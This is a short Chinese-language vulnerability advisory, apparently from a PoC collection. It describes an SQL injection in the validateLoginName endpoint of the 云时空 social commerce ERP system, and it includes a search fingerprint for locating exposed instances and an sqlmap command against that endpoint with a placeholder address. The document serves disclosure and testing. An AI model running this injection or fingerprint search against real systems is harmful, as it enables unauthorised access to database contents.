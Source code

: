 # 云时空 社会化商业ERP系统 validateLoginName SQL注入漏洞

## 漏洞描述

云时空 社会化商业ERP系统存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>云时空 社会化商业ERP系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="云时空社会化商业ERP"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630040977210-31a0a314-667a-4cbe-9a9b-dce153582ee0-20220313155426852.png)

使用SQLmap验证漏洞

```python
sqlmap -u "http://xxx.xxx.xxx.xxx/sys/user/validateLoginName?loginName=admin"
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630041138096-be221d73-c3e6-44b8-b0e8-71a999cb58f7.png)